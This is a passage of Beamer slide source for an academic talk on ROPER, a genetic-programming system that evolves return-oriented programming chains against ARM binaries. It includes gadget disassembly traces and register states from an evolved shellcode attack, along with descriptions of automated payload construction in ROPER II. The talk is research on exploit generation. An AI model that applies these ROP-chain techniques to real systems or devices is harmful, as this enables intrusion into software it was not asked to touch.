[0001668c]~~moveq~r1,r0

[00016690]~~cmp~r3,0

[00016694]~~ldrne~r2,[r3,0x20]

[00016698]~~moveq~r2,r3

[0001669c]~~rsb~r2,r2,r1

[000166a0]~~cmn~r2,1

[000166a4]~~bge~0x48

[000166ec]~~cmp~r2,1

\alert{[000166f0]~~ble~0x44}

[00016734]~~mov~r2,0

[00016738]~~cmp~r0,r2

[0001673c]~~str~r2,[r4,0x20]

\alert{[00016740]~~beq~0x10}

[00016750]~~cmp~r3,0

[00016754]~~beq~0x14

[00016758]~~ldr~r3,[r3,0x20]

[0001675c]~~ldr~r2,[r4,0x20]

[00016760]~~cmp~r3,r2

[00016764]~~strgt~r3,[r4,0x20]

[00016768]~~ldr~r3,[r4,0x20]

[0001676c]~~mov~r0,r4

[00016770]~~add~r3,r3,1

[00016774]~~str~r3,[r4,0x20]

[00016778]~~pop~\{r4,pc\}
\vspace{4pt}


R0:~0000000b

R1:~00000000

R2:~00000000

R7:~0002bc3e



%\end{lstlisting}
\end{multicols}

\end{frame}

\begin{frame}{\theframenumber. Play-by-play of ROPER's Shellcode Attack}
  \begin{multicols}{3}
  \tiny
  {\color{title};;~Extended~Gadget~1}
  
  [00012780]~~bne~0x18
  
  [00012784]~~add~r5,r5,r7

  [00012788]~~rsb~r4,r7,r4

  [0001278c]~~cmp~r4,0
  
  [00012790]~~bgt~4294967240
  
  [00012794]~~b~8
  
  [0001279c]~~mov~r0,r7
  
  [000127a0]~~pop~\{r3,r4,r5,r6,r7,pc\}
  \vspace{4pt}


  R0:~0002bc3e

  R1:~00000000
  
  R2:~00000000
  
  R7:~0000000b
  \Gap

  \columnbreak
  {\color{title};;~Extended~Gadget~2}
  
  [000155ec]~~b~0x1c

  [00015608]~~add~sp,sp,0x58

  [0001560c]~~pop~\{r4,r5,r6,pc\}
  \vspace{4pt}
  
  R0:~0002bc3e
  
  R1:~00000000
  
  R2:~00000000
  
  R7:~0000000b
  \Gap
\columnbreak

{\color{title};;~Extended~Gadget~3}
  
\alert{[00016918]~~mov~r1,r5}

[0001691c]~~mov~r2,r6

[00016920]~~bl~4294967176

[000168a8]~~push~\{r4,r5,r6,r7,r8,lr\}

[000168ac]~~subs~r4,r0,0

[000168b0]~~mov~r5,r1

[000168b4]~~mov~r6,r2

[000168b8]~~beq~0x7c

[000168bc]~~mov~r0,r1

[000168c0]~~mov~r1,r4

\alert{[000168c4]~~blx~r2}
\vspace{4pt}


R0:~0002bc3e

R1:~0002bc3e

R2:~00000000

R7:~0000000b

\end{multicols}
\end{frame}

%% point form def. of ``intron''
%% 
\begin{frame}{\theframenumber. Extended Gadgets \& Introns} %, \& Extended Phenotypes}
  \BackgroundImage[0.15]{../images/exons.png}

      Chains like this emerge frequently, usually accompanied by spikes in the population's crash frequency -- jumping blindly to arbitrary addresses is hazardous.
      \Gap

      What selection pressures could be responsible for this phenomenon? 
      \Gap

      Conjecture:
      
      \begin{itemize}% [leftmargin=*]
      \item genes are selected not just for fitness, but for heritability

      \item our crossover operator has only weak/emergent respect for gene linkage, and none for homology

      \item so good genes are always at risk of being broken up instead of passed on 

      \item `introns' can pad important genes, and they decrease the chance that crossover will destroy them -- and so are selected for

      \item by branching away from the ROP stack at Gadget 2, our specimen transforms about 90\% of its genome into introns
      \end{itemize}

\end{frame}


\begin{frame}{\theframenumber. Fleurs du Malware }

  \BackgroundImage[0.2]{../images/iris3.png}

  \TwoCol {
      It seemed natural to see if ROPER could also tackle traditional
      machine learning benchmarks, and generate ROP payloads that exhibit
      subtle and adaptive behaviour. 
      \Gap
      
      To the best of my knowledge, this has never been attempted before.
      \Gap
      
      I decided to start with the well-known Iris dataset, compiled by
      Ronald Fisher \& Edgar Anderson in 1936.
      \
  } {
      Each ROP-chain in the population would be passed the petal and sepal measurements of each specimen in the Iris dataset.
      \Gap
      
      The fitness of the chains was made relative to the accuracy with which they could predict the species of iris from those predictions.
      \Gap
      
      Given time, the population would be able to recognize iris species with an accuracy of about 96\,\%, as an effect of evolution alone.
  }
\end{frame}

%%%%%%%%%%%%%%
%% TEMPLATE
%%%%%%%%%%%%%%
%% \begin{frame}{\theframenumber. }
%%   \begin{columns}
%%     \begin{column}{.5\textwidth}

%%     \end{column}
%%     \begin{column}{.5\textwidth}

%%     \end{column}
%%     \end{columns}

%% \end{frame}


\begin{frame}{\theframenumber. Low-Hanging Fruit \& its Consequences for Diversity}


  \tikz[remember picture,overlay]
  \node[opacity=0.2, inner sep=0pt] at (current page.center)
       {
\includegraphics[width=\paperwidth,height=\paperheight]{../images/Low-Hanging-Fruit-Layered.png}};
       \clearpage

  \begin{columns}
    \begin{column}{.5\textwidth}
      \begin{itemize}
      \item A challenge facing any machine learning technique is to
      avoid getting trapped in merely \emph{local} optima.

      \item This can happen, for example, if
        it hyperspecializes on a particularly simple portion 
        -- the ``low hanging fruit'' -- of the problem set,
        while failing to adapt to more difficult problems.

      \end{itemize}
    \end{column}
    \begin{column}{.5\textwidth}
      \begin{itemize}
      \item The phenomenon is analogous to a natural population
        over-adapting to a particularly hospitable niche.
      \item But in the wild, this is
        offset by an increase in competition and crowding,
        which increase the selective pressure acting on formerly
        hospitable niches. Low-hanging fruit doesn't last very long.
      \end{itemize}
    \end{column}
    \end{columns}
\end{frame}



%% \begin{frame}{\theframenumber. Implementing Niching through Fitness Sharing}
%%   \BackgroundImage[0.2]{../images/overpop.png}
%%   \begin{columns}
%%     \begin{column}{.5\textwidth}
%%       \begin{itemize}
%%       \item In order to address this issue, we first need to keep track of where, in the problem space, the overfitting occurs. Where is the low-hanging fruit?
%%       \item To do this, we tag each problem in our space with a `difficulty' field, which keeps track of how our specimens perform on it, on average. 
%%       \end{itemize}
%%     \end{column}
%%     \begin{column}{.5\textwidth}
%%       \begin{itemize}
%%       \item Since the whole point of tracking difficulty is to have it transform dynamically over the course of the evolution, we'll update these scores every so many iterations.
%%       \item On the next slide, we plot the progress of the population's best and average fitness scores on the left, and the difficulty rations of our problems on the right -- plotted by class mean and standard deviation. 
%%       \end{itemize}

%%     \end{column}
%%     \end{columns}
%% \end{frame}

\begin{frame}{\theframenumber. Tracking Niches without Crowding}
  \begin{center}
    
\includegraphics[width=\textwidth, height=.85\textheight]{../../examples/iris/nosharing-diff/nosharing.png}
  \end{center}
\end{frame}

%% \begin{frame}{\theframenumber. Crowding Implemented as Fitness Sharing}
%%   \BackgroundImage[0.2]{../images/2ropers.png}
%%   \begin{columns}
%%     \begin{column}{.5\textwidth}
%%       \begin{itemize}
%%       \item We haven't yet changed anything in the way each specimen's fitness is evaluated. The graph only shows us how the population is performing, with respect to each class of problems.
%%       \item But we can use this information to tweak our fitness function in ways relevant to niching.
%%       \end{itemize}
%%     \end{column}
%%     \begin{column}{.5\textwidth}
%%       \begin{itemize}
%%       \item All that we need to do is to scale the fitness points awarded for each problem with respect to that problem's difficulty. The rewards for solving `difficult' problems (uncrowded niches) will be greater than those awarded for solving `easy' problems (crowded niches). 
%%       \end{itemize}
%%     \end{column}
%%     \end{columns}

%% \end{frame}

\begin{frame}{\theframenumber. Niching with Crowding}
  \begin{center}
  
\includegraphics[width=\textwidth, height=.85\textheight]{../../examples/iris/sharing3/sharing3-black.png}
  \end{center}
\end{frame}

%% The result was a superb run – achieving 96.6 % detection rate
%% on the training set in 27,724 tournaments, 216 seasons of difficulty
%% rotation, and an average phylogenic generation of 91.3. Figure 5
%% shows the course the evolution took, with the right-hand panel
%% showing the responding environmental pressures – the difficulty
%% scores associated with each class, showing both mean and standard
%% deviation.

%% \begin{frame}{\theframenumber. Classification Results}
%%   do up a nice table or something
%% \end{frame}

\begin{frame}{\theframenumber. Dynamic Braiding of Difficulty by Niche}
  \begin{figure}
    
\includegraphics[width=\textwidth]{../images/braiding.png}
  \end{figure}
  A detailed view of the intricate braiding of niche availability that takes place once we enable fitness sharing. The image is an enlargement of the right panel of the graph on the last slide, focussing on the region between iterations 3000 and 5000.
  \Gap

  Because the environment perennially adjusts to the population's strengths and weaknesses, no specimen encounters the exact same fitness space as its distant ancestors, and cannot benefit from overfitting, or a diet of exclusively low-hanging fruit.
\end{frame}

\begin{frame}{\theframenumber. Snek!}
  \BackgroundImage{../images/snake.png}
  The next step is to have ROPER evolve populations that can respond to dynamic environments. A good sandbox for this sort of thing is to have ROPER's populations play games.
  \Gap
  
  They're currently learning how to play an implementation of Snake that I hacked together (\url{github.com/oblivia-simplex/snek}).
  \begin{center}
\movie[externalviewer,width=3cm,height=2cm]{[CLICK TO PLAY]}{../../videos/roper-snek-misjax-35000.mp4}
\end{center}
  
\end{frame}




  
\begin{frame}{\theframenumber. ROPER II}

  \BackgroundImage[0.3]{../images/roper-mini.png}
  \TwoCol {
    As work progresses, limitations in ROPER's basic design became apparent:
    \
    
    \begin{itemize}
    \item the evolutionary operators lacked any means of gleaning detailed information about the gadgets used, or the memory layout of the host process, or anything else that might be relevant, but the creatures' performance at runtime
    \item this information could be mined and supplied to the process, in hard-coded, deterministic ways, but there a more organic solution seemed preferable
    \end{itemize}
  } {   
    \begin{itemize}
    \item At GECCO '17, Lee Spector offered the following suggestion:
    \item ``Instead of evolving the payloads directly, why not evolve programs that build the payloads?''
    \item This lets us bypass many of the obstacles noted earlier,
    \item letting us provide the population with numerous channels of information into the host process, \textbf{without} having to judge, beforehand, which channels would be most fruitful.
    \end{itemize}
  }
\end{frame}


\begin{frame}{\theframenumber. ROPER II: Evolving Chain-Builders on a PUSH VM}
  \BackgroundImage[0.2]{../images/astar-arm.png}
    \begin{itemize}
    \item PUSH is a family of statically-typed FORTH-like languages, developed by Spector primarily for the sake of use in genetic programming
    \item I developed a form of PUSH, specifically for ROPER II. 
    \item It has a simple BNF grammar: 
      \vspace{6pt}
      
      \small
      \begin{tabular}{l c l}
       PROGRAM & := & OPERATION | VALUE | (PROGRAM*) \ \\
       VALUE & := & <TYPE, VALUE> | atom \ \\
       TYPE & := & code | exec | womb | int | bool | gadget | bytes \ \\ 
       OPERATION & := & <(TYPE*), (TYPE*), GAS, FUNC> \ \\
       FUNC & := & a lambda expression \ \\
       GAS & := & an integer >= 0
      \end{tabular}
    \item The operations include:
      \begin{itemize}
      \item basic arithmetic
      \item Forth-like stack combinators
      \item comparators and conditionals, and
      \item special operations for inspecting gadget internals
      \item experimentally executing gadget combinations in the Unicorn VM,
      \item and dereferencing pointers and searching for values in process memory.
      \end{itemize}
    \end{itemize}
\end{frame}


\begin{frame}{\theframenumber. PUSH Control Flow in ROPER II}
  \BackgroundImage[0.2]{../images/astar.png}
    \begin{itemize}
    \item Load program into code stack
    \item while code stack non-empty and gas remains:
      \begin{itemize}
      \item pop code stack; push onto exec stack
      \item while exec stack non-empty:
        \begin{itemize}
        \item pop program from exec stack
        \item if \textbf{operation}:
          \begin{tabular}{l l}
          * & check signature to see if arguments are available on stacks, and if so
          \ \\ * & pop arguments from stacks
          \ \\ * & perform operation
          \ \\ * & tag return value with type, and
          \ \\ * & push result onto exec stack
          \end{tabular}
        \item else if \textbf{value}: check type, and push onto matching stack
        \item else if \textbf{list}: push contents back onto exec stack
        \end{itemize}
      \end{itemize}
    \item Serialize ROP/JOP payload from \textbf{gadget} and \textbf{int} stacks
    \item Send payload to Unicorn VM instance \& execute
    \item Collect and return register state
    \item to which fitness functions can then be replied, as in ROPER I. 
    \end{itemize}
\end{frame}


\begin{frame}{\theframenumber. Everything You Ever Wanted to Know About Autoconstruction}
  \BackgroundImage[0.15]{../images/woody.png}
  \begin{itemize}
  \item The PUSH abstraction layer also affords us with new possibilities for reproduction.
  \item We no longer need to restrict ourselves to crossover and mutation, but can allow each individual to prescribe its method of recombining its genes with its mate to generate offspring.
  \item A child can be generated by loading the \textbf{womb} stack with one parent's genome, the \textbf{code} stack with the other, then executing the PUSH VM, and taking whatever remains in the \textbf{womb} stack at the end as the child.
  \item If the result fails to differ from both parents, discard it, and generate a new one using standard crossover or mutation algorithms.
\end{itemize} 
\end{frame}

\begin{frame}{\theframenumber. What next?}
  \BackgroundImage[0.25]{../images/tobecontinued.png}
  \
  ROPER II is still under construction, and so I have no results to share with you just yet. Anyone interested is free to check \url{http://github.com/obliviasimplex/roper} in a few weeks to see how things have progressed on that front.
  \end{frame}

\begin{frame}{\theframenumber. Acknowledgements}

   \BackgroundImage[0.15]{../images/simplefarmer.png}
   Thank you, 2keys!
   \Gap
   And thank you to my thesis supervisors inthe NIMS Laboratory, at Dalhousie University: \Gap
   Nur Zincir-Heywood \url{<zincir@cs.dal.ca>}
   \Gap
   Malcolm Heywood \url{<mheywood@cs.dal.ca>}
   \Gap
   I'd also like to thank Raytheon Airborne Systems, who provided financial support for this project, thanks to the enthusiasm of John T. Jacobs \url{<John_T_Jacobs@raytheon.com>}.
   \Gap
   And though not affiliated with this particular project, I'd like to thank my employer, Tenable Network Security, as well.
   %\
   %This work would not have been possible without the support of \Gap
   
   %     \begin{tabular}{rl}
   %       My thesis supervisors \ & \\
   %       \texttt{Nur Zincir-Heywood} 
   %       & \url{zincir@cs.dal.ca} \ \\
   %       \texttt{Malcolm Heywood}
   %       & \url{mheywood@cs.dal.ca}  \ \\ \\
   %       research funding, courtesy of & \\
   %       \texttt{John T. Jacobs}
   %       & \url{John_T_Jacobs@raytheon.com} \\
   %     \end{tabular}
   %     \vspace{80pt}
   %     \
   %     \begin{tabular}{l}
   %       \\
   %       \texttt{NIMS Laboratory @ Dalhousie University}\\
   %       \texttt{Raytheon Space \& Airborne Systems}\\
   %       \url{https://github.com/oblivia-simplex/roper} \\
   %       \\
   %     \end{tabular}
  
\end{frame}

\begin{frame}
  \BackgroundImage[1]{../images/roper.png}
\end{frame}



\end{document}

%% TODO:
% Do another stack diagram for ROP attacks
% Emphasize IoT angle, wrt ARM and MIPS
